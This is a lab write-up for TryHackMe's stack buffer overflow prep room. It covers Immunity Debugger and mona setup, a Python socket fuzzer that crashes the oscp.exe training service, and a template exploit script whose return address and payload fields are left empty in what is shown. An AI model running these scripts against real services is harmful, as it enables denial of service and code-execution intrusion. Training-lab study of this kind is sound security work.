 ```yaml
---
title: TryHackMe BufferOverflow
description: Buffer Overflow Prep
categories:
 - tryhackme

tags: tryhackme Bufferoverflow

---
```


## Summary

Practice stack based buffer overflows!


## Starting Immunity Debugger

[[/Bufferoverflow-screenshot/Screenshot_2021-08-13_04_01_12.png]]

Right-click the Immunity Debugger icon on the Desktop and choose "Run as administrator".


[[/Bufferoverflow-screenshot/Screenshot_2021-08-13_04_02_29.png]]


When Immunity loads, click the open file icon, or choose File -> Open. Navigate to the vulnerable-apps folder on the admin user's desktop, and then the "oscp" folder. Select the "oscp" (oscp.exe) binary and click "Open".

## Mona Configuration

Run these command in the input box at the bottom of the immunity Debugger window.

```
!mona config -set workingfolder c:\mona\%p
```
![](https://github.com/greenway71/greenway71.github.io/blob/340df137c36ee7d428465ec76f36121a57837ae7/Bufferoverflow-screenshot/Screenshot_2021-08-13_04_03_54.png)


## Fuzzing

Run this python script to fuzz

```
#!/usr/bin/env python3

import socket, time, sys

ip = "MACHINE_IP"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)

```

![](https://github.com/greenway71/greenway71.github.io/blob/340df137c36ee7d428465ec76f36121a57837ae7/Bufferoverflow-screenshot/Screenshot_2021-08-13_04_04_52.png)

Basically, this script is going to send increasingly long strings comprised of As. If the server gets crashed, the fuzzer should exit with an error message.
![](https://github.com/greenway71/greenway71.github.io/blob/340df137c36ee7d428465ec76f36121a57837ae7/Bufferoverflow-screenshot/Screenshot_2021-08-13_04_05_45.png)

![](https://github.com/greenway71/greenway71.github.io/blob/340df137c36ee7d428465ec76f36121a57837ae7/Bufferoverflow-screenshot/Screenshot_2021-08-13_04_06_06.png)

## Crash Replication & Controlling EIP
```
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

